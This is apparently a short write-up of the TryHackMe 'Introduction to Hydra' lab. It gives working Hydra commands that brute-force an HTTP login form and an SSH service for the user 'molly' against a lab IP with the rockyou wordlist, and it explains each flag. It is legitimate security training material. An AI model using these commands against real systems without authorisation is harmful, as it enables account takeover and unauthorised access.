


# Introduction to Hydra [TryHackMe](https://tryhackme.com/room/hydra)

---

```bash
export IP=10.10.61.134
```

http bruteforce:
```bash
$ hydra -V -t 64 -l molly -P ~/wordlists/passwords/rockyou.txt $IP http-post-form "/login/:username=molly&password=^PASS^:incorrect"
```
~~~
Breaking this down:
-V -> verbose
-t -> threads for the attack (more = faster)
-l -> single login value (use -L for a wordlist)
-P -> password list (use -p for a single password)
$IP -> variable storing the IP address we want to target
http-post-form -> we use post requests to the page
The last part can be broken down into
"route_to_login:username=^USER^&password=^PASS^:fail_string"

More options can be found in the hydra man page
~~~



ssh bruteforce was extremely quick
```bash
$ hydra -t 64 -l "molly" -P ~/wordlists/passwords/rockyou.txt ssh://$IP
```
~~~
Breaking this down, I will skip the ones covered in the http brute-force

ssh://$IP -> points to the IP we must brute-force and the type of port it is (use ssh://$IP:port to specify port)
~~~



Complete!
